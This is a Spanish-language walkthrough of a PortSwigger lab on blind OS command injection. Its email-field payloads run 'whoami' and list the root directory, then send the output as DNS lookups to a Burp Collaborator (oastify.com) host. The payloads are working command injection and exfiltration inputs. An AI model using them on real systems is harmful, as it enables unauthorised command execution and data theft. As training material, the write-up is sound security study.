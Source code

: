```yaml
---
title: "OS Command Injection Lab 5"
date: 2024-12-01 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - OS Command Injection
tags:
  - OS Command Injection
  - Blind OS command injection with out-of-band data exfiltration
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Blind OS command injection with out-of-band data exfiltration

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind OS Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. El `comando` se ejecuta de forma `asíncrona` y no tiene efecto en la `respuesta` de la aplicación. No es posible `redireccionar` la `salida` a una `ubicación` accesible. Sin embargo, es posible desencadenar `out-of-band interactions` con un `dominio externo`. Para resolver el `laboratorio`, debemos ejecutar el `comando` `whoami` y exfiltra su `salida` mediante una `consulta DNS` a `Burp Collaborator`. Necesitaremos introducir el `nombre` del `usuario` actual para completar el `laboratorio`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/OS-Command-Injection-Lab-5/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/OS-Command-Injection-Lab-5/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/OS-Command-Injection-Lab-5/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/OS-Command-Injection-Lab-5/image_4.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard`, debido a que no recibimos `ninguna respuesta` que indique que estamos `inyectando comandos`, esta es la única forma que podemos utilizar para ello, debemos usar este `payload` en los diferentes `campos` para ver si son `inyectables`

```
csrf=h2bWPuUAS3XRnSo6w2sMMhhnp9pXPlbe&name=test&email=||nslookup+`whoami`.s6z1cmuo54u5lsajrthrckwd84ev2sqh.oastify.com||&subject=test&message=test
```

Si nos vamos a `Burpsuite Collaborator` nuevamente veremos que hemos obtenido `dos peticiones DNS` con el `output` del comando `whoami`

![](/assets/img/OS-Command-Injection-Lab-5/image_5.png)

Si necesitamos obtener más de una línea podemos usar este otro `payload` de `Hacktricks` [https://book.hacktricks.xyz/pentesting-web/command-injection#dns-based-data-exfiltration](https://book.hacktricks.xyz/pentesting-web/command-injection#dns-based-data-exfiltration)

```
csrf=h2bWPuUAS3XRnSo6w2sMMhhnp9pXPlbe&name=test&email=||for+i+in+$(ls+/);+do+host+"$i.4gldmy40fg4hv4kv15r3mw6pigo7c50u.oastify.com";+done||&subject=test&message=test
```

Pulsamos en `Submit solution` e `introducimos` el nombre de usuario `peter-qflr5j`

![](/assets/img/OS-Command-Injection-Lab-5/image_6.png)
